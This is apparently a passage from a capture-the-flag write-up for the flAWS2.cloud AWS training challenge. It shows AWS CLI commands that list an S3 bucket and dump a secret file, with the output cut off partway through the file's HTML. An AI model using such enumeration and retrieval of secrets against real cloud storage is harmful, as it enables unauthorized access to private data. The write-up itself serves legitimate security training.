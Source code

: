 List files in the s3 bucket hosting the site

`aws --profile level1 s3 ls s3://level1.flaws2.cloud`

```
                           PRE img/
2018-11-20 15:55:05      17102 favicon.ico
2018-11-20 21:00:22       1905 hint1.htm
2018-11-20 21:00:22       2226 hint2.htm
2018-11-20 21:00:22       2536 hint3.htm
2018-11-20 21:00:23       2460 hint4.htm
2018-11-20 21:00:17       3000 index.htm
2018-11-20 21:00:17       1899 secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html
```

Dump the secret file

`aws --profile level1 s3 cp s3://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html -`

```
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    <meta name="description" content="AWS Security training">
    <meta name="keywords" content="aws,security,ctf,amazon,enterprise,defense,infosec,cyber,flaws2">
    <title>flAWS2.cloud</title>

    <link href="http://flaws2.cloud/css/bootstrap.css" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css?family=Lato" rel="stylesheet">
    <link href="http://flaws2.cloud/css/summitroute.css" rel="stylesheet">

    <link rel="icon" href="/favicon.ico" sizes="16x16 32x32 64x64" type="image/vnd.microsoft.icon">
</head>

<body>
    <div class="stretchforfooter">
        <div class="container">
            <nav class="navbar navbar-default" role="navigation">
                <div class="navbar-header">
                    <a class="navbar-brand" href="/"></a>
                </div>
                <div>
                    <ul class="nav navbar-nav navbar-right">
                        <li>
                            <a href="http://flaws2.cloud" class="hvr-overline-from-center">flaws2.cloud</a>
                        </li>
                    </ul>
                </div>
            </nav>
        </div>

        <hr class="gradient">

        <div class="content-section-a">
          <div class="container">
    <div class="row">
        <div class="col-sm-8 col-sm-offset-2">

```
